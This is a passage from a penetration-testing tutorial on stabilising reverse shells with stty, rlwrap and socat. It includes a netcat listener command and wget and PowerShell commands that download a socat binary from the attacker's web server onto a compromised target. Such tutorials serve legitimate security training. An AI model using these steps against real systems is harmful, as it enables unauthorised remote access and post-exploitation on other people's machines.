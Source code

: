 export TERM=xterm

This will give us access to term commands such as clear.
Finally (and most importantly) we will background the shell using Ctrl + Z. Back in our own terminal we use:

stty raw -echo; fg

This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). 
It then foregrounds the shell, thus completing the process.

Note that if the shell dies, any input in your own terminal will not be visible (as a result of having disabled terminal echo). To fix this, type reset and press enter.

Technique 2: rlwrap

rlwrap is a program which, in simple terms, gives us access to history, tab autocompletion and the arrow keys immediately upon receiving a shell; 
however, some manual stabilisation must still be utilised if you want to be able to use Ctrl + C inside the shell. rlwrap is not installed by default on Kali, so first install it with:

sudo apt install rlwrap.

To use rlwrap, we invoke a slightly different listener:

rlwrap nc -lvnp <port>

Prepending our netcat listener with "rlwrap" gives us a much more fully featured shell. 
This technique is particularly useful when dealing with Windows shells, which are otherwise notoriously difficult to stabilise. 
When dealing with a Linux target, it's possible to completely stabilise, by using the same trick as in step three of the previous technique: background the shell with Ctrl + Z, then use:

 stty raw -echo; fg

 to stabilise and re-enter the shell.

 Technique 3: Socat

The third easy way to stabilise a shell is quite simply to use an initial netcat shell as a stepping stone into a more fully-featured socat shell. 
Bear in mind that this technique is limited to Linux targets, as a Socat shell on Windows will be no more stable than a netcat shell. 
To accomplish this method of stabilisation we would first transfer a socat static compiled binary (a version of the program compiled to have no dependencies) up to the target machine. 
A typical way to achieve this would be using a webserver on the attacking machine inside the directory containing your socat binary 
(sudo python3 -m http.server 80), then, on the target machine, using the netcat shell to download the file. 
On Linux this would be accomplished with curl or wget

 (wget <LOCAL-IP>/socat -O /tmp/socat).

For the sake of completeness: in a Windows CLI environment the same can be done with Powershell, using either Invoke-WebRequest or a webrequest system class, depending on the version of Powershell installed 

(Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\Windows\temp\socat.exe).
